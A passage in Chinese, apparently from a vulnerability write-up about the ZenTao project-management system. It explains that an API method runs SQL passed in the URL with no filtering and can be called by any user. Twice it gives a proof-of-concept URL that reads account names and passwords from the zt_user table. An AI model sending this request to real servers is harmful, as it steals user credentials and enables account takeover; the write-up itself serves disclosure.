 这里并没有进行过滤，只使用了代码**$sql=trim($sql)**过滤了空格

我们看一下这里的调用这个方法需要的权限

![](image/zentao-20.png)

这里可以看到任何用户都可以调用这个模块的方法，所以我们用它调用**sql**方法进行查询(空格转换为+,绕过过滤)

```
http://xxx.xxx.xxx.xxx/api-getModel-api-sql-sql=select+account,password+from+zt_user
```

![](image/zentao-21.png)

成功执行sql语句

## 漏洞利用POC

登陆后访问

```
http://xxx.xxx.xxx.xxx/api-getModel-api-sql-sql=select+account,password+from+zt_user
```

